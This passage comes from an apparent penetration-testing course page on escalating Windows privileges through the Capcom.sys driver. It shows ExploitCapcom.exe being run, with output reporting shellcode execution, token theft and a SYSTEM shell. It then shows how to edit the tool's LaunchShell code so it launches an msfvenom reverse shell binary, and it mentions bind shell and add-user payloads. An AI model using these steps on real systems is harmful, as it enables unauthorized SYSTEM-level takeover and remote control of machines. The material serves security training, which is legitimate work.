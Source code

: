 To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

Print Operators

```powershell-session
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

This launches a **GUI shell** with SYSTEM privileges.

---
## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

Code: c

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

Code: c

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

---
